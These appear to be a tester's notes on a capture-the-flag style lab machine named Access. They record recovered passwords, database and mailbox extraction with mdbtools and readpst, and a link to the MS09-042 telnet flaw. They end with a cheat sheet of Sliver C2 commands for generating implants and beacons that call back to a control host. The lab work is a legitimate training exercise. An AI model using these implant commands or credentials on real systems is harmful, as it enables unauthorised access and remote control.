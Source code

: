 # Access Notes

## Data 

IP:  10.10.10.98
OS:
Hostname:
Domain:  / Domain SID:
Machine Purpose: 
Services:
Service Languages:
Users: John, Security
Credentials:

access4u@security is password for 'Access Control.zip'
"security" - 4Cc3ssC0ntr0ller
john - john@megacorp.com
security@accesscontrolsystems.com

## Objectives

## Target Map

![](Access-map.excalidraw.md)

## Solution Inventory Map


### Todo 

What is LON-MC6 - https://support.microsoft.com/en-us/topic/ms09-042-vulnerability-in-telnet-could-allow-remote-code-execution-7d71e702-0539-73ab-dbbe-2ac5502c8420



Make Excalidraw

### Done

dumpingftp.png
https://en.wikipedia.org/wiki/Microsoft_Access
Install [mbdtools](https://www.kali.org/tools/mdbtools/)
```bash
# mdbtools for mdb databse
# pstutils for the .pst file 
sudo apt install mdbtools pstutils
```

JET4.png
```bash
mdb-tables backup.mdb > all-tables
```

```bash
mdb-hexdump backup.mdb
```
afavouriteword.png
creds.png
3333s.png

access4u@security is password for 'Access Control.zip'

passwordaccountandversions.png

https://linux.die.net/man/1/readpst
```bash
readpst Access\ Control.pst
cat Access\ Control.mbox
```

John Carter is mentioned in USERINFO.c
johncarter.png

https://vulners.com/nessus/SMB_NT_MS09-042.NASL - trick a user or SSRF with telnet 

security-4Cc3ssC0ntr0ller.png

yawcam.png

systeminfo.png

ZKTeco.png

netdogssaddogs.png

```go
sliver
// View all implants
implant
// Generate Beacons and Sessions
generate
// Choice one C2 endpoint using:
// --wg is wireguard 
--mtls --wg --http --dns
// Session are sessions
generate --mtls --os windows --save 
// Beacons are asychronous 
generate beacon --mtls example.com --save /Users/moloch/Desktop
// Regenerate
regenerate
// listeners
mtls
wg
https
http
dns
// Jonbs to view and manage listners
jobs

```